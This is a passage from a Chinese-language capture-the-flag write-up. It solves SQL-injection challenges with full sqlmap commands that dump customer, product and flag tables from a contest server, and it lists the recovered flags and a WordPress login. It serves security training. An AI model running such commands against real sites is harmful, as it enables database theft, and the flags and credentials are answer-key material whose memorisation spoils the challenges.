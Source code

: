 輸入`sqlmap -u "http://isip-ctf.tyc4d.tw:8056/index.php" --forms --crawl=2 --tables -D customer_database --dump -T user-info`
發現在765
![image](https://hackmd.io/_uploads/S1YvALIQR.png)

> FLAG:`FLAG{n0w_y0u_know_sqlmap}`

---

## WHERE are you (Shopping Cart)

而我們要尋找架上的東東
看起來就在shop_database中的tblproduct
印出即可`sqlmap -u "http://isip-ctf.tyc4d.tw:8056/index.php" --forms --crawl=2 --tables -D shop_database --dump -T tblproduct`
這樣子就出來了![image](https://hackmd.io/_uploads/HJ0mJDI7R.png)
FLAG:`FLAG{Th3_secret_0f_wh3r3_5tatement}`

---

## Infomation_Sc...?

題目都告訴你要在table flag_table中找有幾個varchar類型的
`sqlmap -u "http://isip-ctf.tyc4d.tw:8056/index.php" --forms --crawl=2 -D customer_database -T flag_table --columns`
會看到共有兩種![image](https://hackmd.io/_uploads/B1ZBeDL7R.png)

> FLAG:`2`

---

## 真實案例挑戰賽Q1

當按下網頁中的連結時，會前往到本機的，我們要把他換掉
![image](https://hackmd.io/_uploads/HJeXAeAmR.png)
要設定
![image](https://hackmd.io/_uploads/BJANRgCQ0.png)
然後會看到這個圖
![image](https://hackmd.io/_uploads/rkd8AxAXC.png)
知道有`port：8380`
![image](https://hackmd.io/_uploads/Hy_x--0m0.png)

已經知道帳號是:wordpress
密碼：wordpress_Admin

進去後看到wp_flag的table

> FLAG:`FLAG{nice_observation}`
